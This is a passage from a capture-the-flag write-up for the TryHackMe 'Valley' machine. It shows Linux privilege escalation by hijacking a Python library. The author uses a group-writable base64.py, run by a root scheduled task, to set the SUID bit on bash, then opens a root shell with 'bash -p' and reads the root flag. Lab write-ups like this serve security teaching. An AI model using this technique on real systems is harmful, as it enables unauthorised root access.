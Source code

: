 We see the permission for the *base64.py* file, we can see that it can be edited and executed by the root user or by the "*valleAdmin*" group, and we belong to this one!

```
valley@valley:/photos$ ll /usr/lib/python3.8/base64.py 
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13 03:26 /usr/lib/python3.8/base64.py*
valley@valley:/photos$ id
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
valley@valley:/photos$ 
```

We edit the file, import the "*os*" library to execute a line that allows us to escalate privileges on a bash:

![](../assets/img/valley-tryhackme-writeup/13.png)

We see the current status of the bash, wait a few minutes until the scheduled task is executed and we see that it has worked, so we raise a bash granting us the inherited permissions and read the *root.txt* file

```
valley@valley:/photos$ ll /usr/bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash*
valley@valley:/photos$ ll /usr/bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash*

valley@valley:/photos$ /usr/bin/bash -p
bash-5.0# id 
uid=1000(valley) gid=1000(valley) euid=0(root) groups=1000(valley),1003(valleyAdmin)
bash-5.0# ls -lna /root
total 56
drwx------  8 0 0 4096 Mar 13 08:17 .
drwxr-xr-x 21 0 0 4096 Mar  6 15:40 ..
-rw-------  1 0 0    0 Mar 21 07:30 .bash_history
-rw-r--r--  1 0 0 3106 Dec  5  2019 .bashrc
drwx------  2 0 0 4096 Mar 20 20:04 .cache
drwxr-xr-x  4 0 0 4096 Mar  6 13:02 .config
drwx------  4 0 0 4096 Aug 15  2022 .gnupg
drwxr-xr-x  3 0 0 4096 Aug 11  2022 .local
-rw-------  1 0 0   49 Mar  3 10:19 .mysql_history
-rw-r--r--  1 0 0  161 Dec  5  2019 .profile
-rw-r--r--  1 0 0   37 Mar 13 08:17 root.txt
-rw-r--r--  1 0 0   66 Aug 15  2022 .selected_editor
drwx------  3 0 0 4096 Aug 11  2022 snap
drwx------  2 0 0 4096 Aug 14  2022 .ssh
-rw-r--r--  1 0 0  222 Aug 15  2022 .wget-hsts
bash-5.0# cat /root/root.txt
THM{********************}
```